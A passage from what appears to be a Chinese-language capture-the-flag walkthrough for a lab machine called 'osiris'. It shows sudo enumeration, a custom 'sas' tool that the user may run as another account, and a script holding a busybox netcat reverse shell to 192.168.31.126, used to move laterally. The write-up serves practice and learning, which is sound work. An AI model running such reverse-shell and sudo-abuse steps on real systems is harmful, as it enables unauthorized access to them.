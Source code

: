 ```shell
drwxr-xr-x  4 love    love    4096 ago  9 05:13 love

```

`sudo -l`可以mitnick权限执行`home/mitnick/sas`

```shell
ove@osiris:/home/mitnick$ sudo -l
Matching Defaults entries for love on osiris:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User love may run the following commands on osiris:
    (mitnick) NOPASSWD: /home/mitnick/sas
love@osiris:/home/mitnick$ sudo -u mitnick /home/mitnick/sas
  SSSSS            AAA             SSSSS
 S     S          A   A           S     S
 S               A     A          S
  SSSSS          A     A           SSSSS
       S   ###   AAAAAAA    ###         S
 S     S   ###   A     A    ###   S     S
  SSSSS          A     A           SSSSS
SAS v1.0
(c) SWITCHED ACCESS SERVICES 2023 Aquilino Morcillo

sas -h Available commands
# id
Command not found: id
# sas -h
Available commands:
sas_call - listen to Services
ls - List files and directories
cat <filename> - Display contents of a file
whoami - Show current user
sas help (-h) - Show available commands
version (-v) - Show application version
run <filename> - Execute a file
dir - Show the content of the current directory in wide format
```

可以运行脚本，继续反弹个`shell`

```shell
love@osiris:~$ cat /home/love/a.sh
busybox nc 192.168.31.126 1235 -e /bin/bash
love@osiris:~$
love@osiris:~$ sudo -l
Matching Defaults entries for love on osiris:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User love may run the following commands on osiris:
    (mitnick) NOPASSWD: /home/mitnick/sas
love@osiris:~$ sudo -u mitnick /home/mitnick/sas
  SSSSS            AAA             SSSSS
 S     S          A   A           S     S
 S               A     A          S
  SSSSS          A     A           SSSSS
       S   ###   AAAAAAA    ###         S
 S     S   ###   A     A    ###   S     S
  SSSSS          A     A           SSSSS
SAS v1.0
(c) SWITCHED ACCESS SERVICES 2023 Aquilino Morcillo

sas -h Available commands
```